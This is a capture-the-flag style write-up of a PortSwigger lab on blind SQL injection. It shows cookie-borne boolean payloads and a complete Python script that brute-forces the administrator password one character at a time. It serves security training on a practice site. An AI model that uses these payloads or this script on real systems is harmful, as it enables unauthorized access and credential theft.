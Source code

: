 ## PortSwigger Blind SQL Injection with Conditional Responses

If you're using the community edition of Burp Suite, brute-forcing all lowercase characters and digits (0-9) can take hours. So I came up with this solution which is more efficient and creative.

---

## Challenge Description

![Challenge Description](./Screenshots/Challenge_description.png)

The challenge description reveals that the application uses the `TrackingId` cookie in SQL queries. We also confirm the existence of the `users` table, the `administrator` user, and a `password` column.

---

## Determining the Password Length

1. Open Burp Suite, intercept the request, and send it to Repeater.

   ![Repeater](./Screenshots/Repeater.png)

2. Since the cookie value is part of the query, we can attempt SQL injection. Removing it may cause an error, so we modify it instead:

   ```sql
   TrackingId=xyz' AND '1'='1
   ```

   ![First Payload](./Screenshots/FirstPayload.png)

   If the response contains `Welcome back!`, we know the injection was successful. Since this is a blind SQL injection scenario, the database does not return direct query results, but we can infer information from response differences.

3. Next, verify if the `administrator` user exists:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
   ```

   ![Second Payload](./Screenshots/SecondPayload.png)

   If `Welcome back!` appears, the `administrator` user exists.

4. Now, determine the password length:

   ```sql
   TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 1)='a
   ```

   ![Length Check](./Screenshots/Length.png)

   Increase the number incrementally until `Welcome back!` disappears. Instead of manually testing, we automate it using Burp Suite’s Intruder:

   ![Intruder Setup](./Screenshots/Intruder1.png)

   To generate a wordlist of numbers from 1 to 100, I used ChatGPT to create a text file.

   Configure the settings:

   ![Intruder Grep](./Screenshots/Intruder2.png)

   Using the **Grep** function ensures that we detect when `Welcome back!` appears in responses. 

   Launch the attack!

   ![Attack Result](./Screenshots/AttackResult.png)

   The `Welcome` column stops appearing after 20, confirming the password length.

---

## Extracting the Password

Now, brute-force the password character by character using SQL’s `SUBSTRING()` function. We use Burp Suite’s Intruder similarly:

![Intruder for Password](./Screenshots/Intruder3.png)

Since Burp Suite Community Edition is slow, a Python script offers a more efficient approach:

```python
import requests
import string

url = "https://example.web-security-academy.net/"

headers = {
    "Host": "example.web-security-academy.net",
    "Cookie": "TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
}

characters = string.ascii_lowercase + string.digits
password = ""

for position in range(1, 21):  # Assuming the password is 20 characters long
    for char in characters:
        headers["Cookie"] = f"TrackingId=xyz' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{char}"
        response = requests.get(url, headers=headers)

        if "Welcome" in response.text:
            password += char
            print(f"Found character: {char} | Current password: {password}")
            break
    else:
        print(f"No valid character found for position {position}. Exiting.")
        break

print(f"Final password: {password}")
```

This script rapidly extracts the password, completing the attack in under a minute.

![Final Output](./Screenshots/output.png)

---

## Conclusion

By leveraging SQL injection techniques, we successfully extracted the administrator password using boolean-based inference. While Burp Suite’s Intruder is useful, a Python script significantly speeds up the process.

Happy hacking!
